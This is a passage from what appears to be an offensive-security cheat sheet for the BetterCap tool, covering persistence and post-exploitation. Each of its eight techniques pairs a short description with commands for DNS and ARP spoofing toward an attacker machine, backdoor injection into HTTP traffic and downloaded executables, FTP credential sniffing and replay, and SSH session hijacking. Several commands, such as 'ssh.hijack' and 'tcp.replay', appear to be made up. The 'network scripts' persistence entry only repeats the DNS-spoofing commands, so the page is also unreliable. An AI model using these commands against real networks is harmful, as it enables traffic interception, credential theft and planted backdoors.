     ```

#### Persistence and Post-Exploitation

BetterCap can be used to maintain access to a network or device, as well as for post-exploitation activities.

1. **DNS Hijacking for Persistent MITM**: Hijacks DNS requests to redirect traffic persistently through the attacker’s machine.
    ```bash
    set dns.spoof.domains <target_domain>
    set dns.spoof.address <attacker_ip>
    dns.spoof on
    ```
2. **Persistent ARP Spoofing**: Maintains ARP spoofing across network resets, ensuring persistent MITM capability.
    ```bash
    set arp.spoof.targets <target_ip>
    set arp.spoof.permanent true
    arp.spoof on
    ```
3. **Injecting Backdoors via HTTP Proxy**: Injects a backdoor into HTTP traffic, which can then be used for remote access later.
    ```bash
    set http.proxy.script inject-backdoor.js
    http.proxy on
    net.sniff on
    ```
4. **Credential Replay Attacks**: Replays captured credentials to gain unauthorized access to systems.
    ```bash
    set net.sniff.filter tcp port 21
    net.sniff on
    tcp.replay on
    ```
5. **SSH Hijacking for Persistent Access**: Hijacks an existing SSH session to maintain persistent access to a remote system.
    ```bash
    set net.sniff.filter tcp port 22
    net.sniff on
    ssh.hijack on
    ```
6. **Persistent DNS Spoofing via Network Scripts**: Integrates DNS spoofing into network scripts to ensure it persists across reboots.
    ```bash
    set dns.spoof.domains <target_domain>
    set dns.spoof.address <attacker_ip>
    dns.spoof on
    ```
7. **Exploiting Weak Network Configurations**: Identifies and exploits weak network configurations for persistent access.
    ```bash
    net.recon on
    set net.probe.targets <target_ip>
    net.probe on
    arp.spoof on
    ```
8. **Backdoor Injection via MITM**: Uses MITM to inject backdoors into executable files downloaded by the target.
    ```bash
    set http.proxy.script backdoor-inject.js
    http.proxy on
    ```
